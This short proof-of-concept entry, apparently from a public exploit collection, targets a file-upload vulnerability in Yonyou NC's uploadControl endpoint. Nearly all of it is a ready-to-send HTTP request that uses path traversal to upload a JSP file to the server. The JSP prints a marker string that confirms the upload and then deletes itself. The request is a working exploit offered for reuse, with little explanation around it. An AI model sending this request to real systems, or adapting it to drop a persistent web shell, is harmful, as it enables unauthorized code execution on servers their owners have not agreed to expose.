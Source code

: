 # yonyounc_uploadcontrol_fileupload

from: https://github.com/wy876/POC/blob/main/%E7%94%A8%E5%8F%8BNC-uploadControl%E6%8E%A5%E5%8F%A3%E5%AD%98%E5%9C%A8%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E.md
2024.4.22 @2 

```
POST /mp/login/../uploadControl/uploadFile HTTP/1.1
Host: 192.168.63.133:8088
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Length: 314

------WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Disposition: form-data; name="file"; filename="test.jsp"
Content-Type: application/octet-stream

111
------WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Disposition: form-data; name="submit"

<% out.println("202cTEST4b70".replace("TEST","b962ac59075b964b07152d23"));new java.io.File(application.getRealPath(request.getServletPath())).delete(); %>
------WebKitFormBoundaryoDIsCqVMmF83ptmp
```
